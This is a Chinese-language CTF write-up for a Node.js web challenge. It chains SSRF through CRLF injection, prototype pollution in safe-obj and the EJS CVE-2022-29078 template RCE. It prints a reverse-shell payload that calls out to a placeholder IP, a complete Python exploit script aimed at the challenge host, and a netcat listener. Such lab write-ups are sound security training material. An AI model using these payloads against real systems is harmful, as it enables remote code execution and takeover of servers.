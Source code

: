 ![[Pasted image 20230202140119.png|500]]

```javascript
var express = require('express');
var http = require('http');
var router = express.Router();
const safeobj = require('safe-obj');
router.get('/', (req, res) => {
    if (req.query.q) {
        console.log('get q');
    }
    res.render('index');
})
router.post('/copy', (req, res) => {
    res.setHeader('Content-type', 'text/html;charset=utf-8')
    var ip = req.connection.remoteAddress;
    console.log(ip);
    var obj = {
        msg: '',
    }
    if (!ip.includes('127.0.0.1')) {
        obj.msg = "only for admin"
        res.send(JSON.stringify(obj));
        return
    }
    let user = {};
    for (let index in req.body) {
        if (!index.includes("__proto__")) {
            safeobj.expand(user, index, req.body[index])
        }
    }
    res.render('index');
})

router.get('/curl', function (req, res) {
    var q = req.query.q;
    var resp = "";
    if (q) {
        var url = 'http://localhost:3000/?q=' + q
        try {
            http.get(url, (res1) => {
                const {statusCode} = res1;
                const contentType = res1.headers['content-type'];

                let error;
                // 任何 2xx 状态码都表示成功响应，但这里只检查 200。
                if (statusCode !== 200) {
                    error = new Error('Request Failed.\n' +
                        `Status Code: ${statusCode}`);
                }
                if (error) {
                    console.error(error.message);
                    // 消费响应数据以释放内存
                    res1.resume();
                    return;
                }

                res1.setEncoding('utf8');
                let rawData = '';
                res1.on('data', (chunk) => {
                    rawData += chunk;
                    res.end('request success')
                });
                res1.on('end', () => {
                    try {
                        const parsedData = JSON.parse(rawData);
                        res.end(parsedData + '');
                    } catch (e) {
                        res.end(e.message + '');
                    }
                });
            }).on('error', (e) => {
                res.end(`Got error: ${e.message}`);
            })
            res.end('ok');
        } catch (error) {
            res.end(error + '');
        }
    } else {
        res.send("search param 'q' missing!");
    }
})
module.exports = router;
```

存在三个路由，其中`/copy`只能由本地访问，`/curl`通过`http.get`方法访问`/`

要想访问`/copy`路由，需要通过`/curl`进行SSRF

参考 [NodeJS 中的 CRLF Injection](https://web.archive.org/web/20231216212929/https://www.anquanke.com/post/id/240014#h2-11)

利用node.js的`http`模块对于Unicode字符截取低位字节的特性，可以绕过低版本node.js对CRLF的转义，实现HTTP的响应拆分，获得对`/copy`的访问能力

---

`/copy`中可以利用的是`safe-obj`模块

参见 [safe-obj模块原型链污染](https://xz.aliyun.com/t/12053#toc-17)

利用`safe-obj`的`expand`函数，可以实现为任意对象添加字符串属性

```javascript
if (!index.includes("__proto__")) {
	safeobj.expand(user, index, req.body[index])
}
```

源码中过滤了`__proto__`，然而通过`constructor.prototype`亦能获取到原型

---

参考 [(CVE-2022-29078)The RCE exploit 🔥🔥](https://eslam.io/posts/ejs-server-side-template-injection-rce/#the-rce-exploit-)

`ejs`模块低版本有这样的逻辑

```javascript
prepended +=
    '  var __output = "";\n' +
    '  function __append(s) { if (s !== undefined && s !== null) __output += s }\n';
if (opts.outputFunctionName) {
    prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
}
```

将未经过转义处理的`outputFunctionName`通过拼接方式加入代码中执行，前提是`opts`能够解析出`outputFunctionName`属性

于是构造`POST`内容

```javascript
constructor.prototype.outputFunctionName=x;process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1"');s
```

来实现反弹shell

---

最终脚本如下

```python
import requests
from urllib.request import quote

payload = """ HTTP/1.1

POST /copy HTTP/1.1
Host: 127.0.0.1
Content-Length: {}
Content-Type: application/x-www-form-urlencoded

{}

GET / HTTP/1.1
test:""".replace('\n', '\r\n')

body = """constructor.prototype.outputFunctionName=x%3Bprocess.mainModule.require%28%27child_process%27%29.execSync%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/xxx.xxx.xxx.xxx/2333%200%3E%261%22%27%29%3Bs"""

payload = payload.format(len(body), body)


def payload_encode(raw):
    res = ''
    for i in raw:
        res += chr(0x0100 + ord(i))
    return res


requests.get(
    'http://3000.endpoint-68e34d3c59d64675ad67a1b75741c685.m.ins.cloud.dasctf.com:81/curl?q='
    + quote(payload_encode(payload)))

```

vps上开启监听

```shell
nc -lvvp 2333
```

![[Pasted image 20230202150044.png|700]]

#Web #nodejs #HTTP #CRLF #SSRF #safe-obj #原型污染 #js #ejs #RCE #Vulnerabilities #反弹shell 
